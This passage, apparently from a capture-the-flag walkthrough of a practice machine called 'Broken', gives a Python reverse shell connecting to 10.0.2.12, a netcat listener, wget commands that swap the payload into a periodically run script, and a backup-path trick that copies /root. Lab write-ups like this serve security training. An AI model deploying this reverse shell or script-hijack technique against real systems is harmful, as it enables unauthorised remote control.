 At Kali box, create a ```log.py``` with the following reverse shell.

```python
#!/usr/bin/python2.7

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.2.12",6666))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/usr/bin/bash","-i"])
```

```bash
nc -lvp 6666
```

At Broken box at ```/home/alice/script```, do the following and wait for a minute.  A reverse shell is ported at port 6666.

```bash
cd /home/alice/script
mv log.py log1.py
wget http://10.0.2.12:4444/log.py
chmod +x log.py
```

![](https://raw.githubusercontent.com/samiux/images/master/broken-2020-1/023.png)  

Go to ```/home/alice/backup``` and put ```/root``` to the ```path.txt```.  Then wait for a mintue.

```bash
cd /home/alice/backup
echo "/root" > path.txt
```

![](https://raw.githubusercontent.com/samiux/images/master/broken-2020-1/024.png)  

Then go to ```/home/alice/backup/root``` and we get the last flag.  The direcotry ```/home/alice/backup``` is not there before doing the previous steps (path.txt with /root).  

![](https://raw.githubusercontent.com/samiux/images/master/broken-2020-1/025.png)  

Root is dancing!

## Final thought

This is a typical Capture The Flag (CTF) game.  It is testing your basic Linux skill, hacking skill and python as well as bash scripting skill.  There is no public exploitation to be used.  It is a very interesting box.  Recommended!

Samiux  
OSCE  OSCP  OSWP  
May 9, 2020, Hong Kong, China  
Updated on May 9, 2020, Hong Kong, China  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|
